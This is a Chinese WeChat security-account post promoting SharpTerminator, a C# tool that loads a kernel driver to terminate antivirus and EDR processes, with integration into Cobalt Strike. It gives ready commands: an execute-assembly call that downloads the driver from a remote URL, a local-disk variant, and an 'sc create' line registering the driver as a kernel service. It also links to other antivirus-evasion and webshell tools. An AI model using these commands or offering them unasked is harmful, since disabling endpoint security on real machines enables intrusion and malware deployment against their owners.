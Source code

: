 #  太狠！Csharp加载驱动干掉杀软进程

mertdas  [ Hack分享吧 ](javascript:void\(0\);)

**Hack分享吧** ![]()

微信号 HackShareB

功能介绍 专注分享国内外优秀安全工具和开源项目

____

___发表于_

收录于合集

#工具 198 个

#插件 29 个

#后渗透 28 个

**声明：** 该公众号分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。  
  
---  
  
  

现在只对常读和星标的公众号才展示大图推送，建议大家把Hack分享吧“设为星标”，否则可能看不到了！  

  

 **工具介绍**

基于@ZeroMemoryEx的Terminator项目写的一个C#版，可通过URL远程或本地加载方式干掉杀软。

  

我们可以在源代码自己添加一些其他AV/EDR进程再重新编译，还可以集成到CobaltStrike插件中使用。

  

 **使用方法**

远程URL时驱动程序会下载到 C:\Windows\Temp ，然后从那里加载。  

  

 **从远程 **URL** 下载驱动程序并终止AV/EDR：**  

  * 

    
    
    execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"

### ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622112345.png)

  

###  **从磁盘加载驱动程序并终止AV/EDR：**

  * 

    
    
     execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622112346.png)

  

 **已知问题**

如果您收到“无法在受信任列表中注册进程！” 错误你应该手动添加服务：  

  * 

    
    
    sc create Terminator binPath= "C:\path\to\driver.sys" type= kernel start= demand

  

 **下载地址**

 **点击下方名片进入公众号**

 **回复关键字【** **23** **0622** **】获取** ** **下载链接****

* * *

 **信  安 考 证**

  
  
需要考以下各类安全证书的可以联系我，价格优惠、组团更便宜，还送【潇湘信安】知识星球 **1** 年！

CISP、PTE、PTS、DSG、IRE、IRS、NISP、PMP、CCSK、CISSP、ISO27001...  
  
---  
  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622112347.png)

往期推荐工具

[渗透测试常用的数据库综合利用工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484579&idx=1&sn=2f2054508220223100066edf3064b37b&chksm=9036e21ba7416b0d7afecc97d3338d954023a51a5622939782273f264207363e4ea8ba9d18de&scene=21#wechat_redirect)

[RequestTemplate红队内网渗透工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484512&idx=1&sn=90d24f2727ba99c870d7112c406bf208&chksm=9036e2d8a7416bce7e190896de3c7cbd428d385d5563717bce46b0c7f51f33ea18d3e0f1af1e&scene=21#wechat_redirect)

[Railgun -
一款GUI界面的渗透工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484499&idx=1&sn=edeae57e8306db1bfdcb72e0b0b655d2&chksm=9036e2eba7416bfdbe6a495b60a89d1a677fc745aa512036072224fc1537d8931276e55f7c90&scene=21#wechat_redirect)

[GoBypass -
Golang免杀生成工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484019&idx=1&sn=05133dd5cb31474078eb4ab019f164f3&chksm=9036e4cba7416ddd92c8f9147bb2d283ddedcdfb4d46ed5987d192863008be9bc655025e0697&scene=21#wechat_redirect)

[ByPassBehinder冰蝎WebShell免杀工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484096&idx=1&sn=487a1f9daf0090071913aeceeb266d53&chksm=9036e478a7416d6ebced132fe4a03bb1d2584d7fb3eb433612151648743322ff900ae849d572&scene=21#wechat_redirect)

[SweetBabyScan内网资产探测漏扫工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247484070&idx=1&sn=eb4cd4f6aac6e0a0ef26a75e4bc2bc7a&chksm=9036e41ea7416d088f70e8593099f750c81b079de1b4b14219276b352a2e83a3eb1d5829c94b&scene=21#wechat_redirect)

[掩日 -
适用于红队的综合免杀工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247483997&idx=1&sn=1a87fc6bfec2a48dd3dfa5bc2852e8e8&chksm=9036e4e5a7416df3ff7f5b4cf55b4c8c57cde271128de0b9fcdf381a19afb207223deb88fb61&scene=21#wechat_redirect)

[AuxTools浮鱼渗透辅助工具箱V1](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247483907&idx=1&sn=4e7cf5de0472f6685edb64a598e6aff8&chksm=9036e4bba7416dad5aa253462a84d0c47fdb4e89914c70bd5a3fbbd8b4ef05572a4e7e702faa&scene=21#wechat_redirect).0

  

[POCbomber红队快速打点漏洞检测工具](http://mp.weixin.qq.com/s?__biz=MzA4NzU1Mjk4Mw==&mid=2247483790&idx=1&sn=35e3a0fa64cff8d72313fa41ddcbfc3c&chksm=9036e736a7416e20dcd23cfede5c887bfecf5e489234eeb67040bcbbc6326cb42373d226a186&scene=21#wechat_redirect)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

